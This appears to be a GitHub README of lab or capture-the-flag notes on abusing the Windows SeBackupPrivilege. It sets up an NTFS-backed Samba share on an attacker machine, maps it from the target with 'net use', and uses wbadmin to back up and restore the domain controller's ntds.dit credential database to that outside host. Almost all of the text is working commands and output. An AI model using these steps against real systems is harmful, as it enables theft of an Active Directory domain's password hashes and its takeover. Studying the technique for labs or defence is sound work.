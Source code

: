 # SeBackupPrivilege

Exploit with `SeBackupPrivilege`.

You need to setup NTFS Disk to support remote windows backup.

## 0x0 Pre-setup ntfs

```bash
# Create 2G Disk
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

# Mount disk
sudo losetup -fP ntfs.disk

# Check Mount 
losetup -a

# format ntfs
sudo mkfs.ntfs /dev/loop0

# Mount 
sudo mount /dev/loop0 smb/

# Check mount
mount | grep smb

```
## 0x1 Install and setup smb

```bash
sudo vim /etc/samba/smb.conf
```

```config

# Comment the following line
# map to guest = bad user

# add config
[mane]
   comment = mane testing
   path = /home/mane/Challenge/smb
   writeable = yes
   guest ok = yes
   read only = no
   valid users = smbuser
   write list = smbuser
   force user = root
```

```bash
# add user
sudo adduser smbuser

# set password
sudo smbpasswd -a smbuser

# restart smb
sudo service smb restart
```

## 0x2 Testing smb share
```bash
$ smbmap -u 'smbuser' -p 'password' -H 127.0.0.1

[+] IP: 127.0.0.1:445   Name: localhost                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        mane                                                    READ, WRITE     mane testing
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.19.0-Debian)
        smbuser                                                 READ ONLY       Home Directories

```

## 0x3 Mount remote PC

Cache the smb credential

```cmd
net use M: \\10.10.16.14\mane /user:smbuser password

dir M:\
```

## 0x4 Exploit

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.14\mane -include:c:\windows\ntds

# Look at the backup version
wbadmin get versions

# Restore the version
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## 0x5 Finally

When Exploit ok, download ntds.dit in `C:\`.


# Reference

https://rootsecdev.medium.com/abusing-sebackupprivilege-cd5d1a88f992